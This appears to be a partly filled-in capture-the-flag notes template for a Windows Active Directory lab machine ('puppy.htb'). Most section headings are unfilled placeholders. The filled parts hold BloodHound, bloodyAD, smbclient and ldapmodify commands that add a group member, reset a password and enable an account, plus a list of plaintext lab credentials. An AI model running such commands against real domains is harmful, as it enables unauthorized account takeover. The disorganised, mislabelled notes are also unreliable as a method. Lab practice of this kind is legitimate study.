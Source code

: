 ```yaml
---
os: Windows
status: Active
tags:
aliases:
---
```

[[DPAPI]] , ActiveDirectory [[Misc]] , 
# Resolution summary

>[!summary]
>- Step 1
>- Step 2

## Improved skills

- Skill 1
- Skill 2

## Used tools

- nmap
- gobuster


---
levi.james / KingofAkron2025!
10.10.11.70

# Information Gathering

Scanned all TCP ports:

```sh

```


```sh
levi.james / KingofAkron2025!

faketime "$( ntpdate -q puppy.htb | cut -d ' ' -f 1,2)"  bloodhound-ce-python -u 'levi.james' -p 'KingofAkron2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip

bloodyAD --host "10.10.11.70" -d "PUPPY.HTB" -u "levi.james" -p 'KingofAkron2025!' add groupMember "DEVELOPERS" "LEVI.JAMES"

smbclient //10.10.11.70/SYSVOL -U 'levi.james' -W 'PUPPY.HTB'

liverpool

______

bloodyAD --host "10.10.11.70" -d "PUPPY.HTB" -u "ant.edwards" -p 'Antman2025!' set password "adam.silver" 'P@ssword1!'
ldapmodify -x -H ldap://10.10.11.70 -D 'ant.edwards@PUPPY.HTB' -w 'Antman2025!' -f enable.ldif



```

Enumerated top 200 UDP ports:

```sh
"JAMIE WILLIAMSON","JamieLove2025!"
"ADAM SILVER", adam.silver "HJKL2025!"
"ANTONY C. EDWARDS", ant.edwards "Antman2025!"
"STEVE TUCKER","Steve2025!"
"SAMUEL BLAKE","ILY2025!"

steph.cooper ChefSteph2025!
steph.cooper_adm FivethChipOnItsWay2025!
```

---

# Enumeration

## Port 80 - HTTP (Apache)


---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```
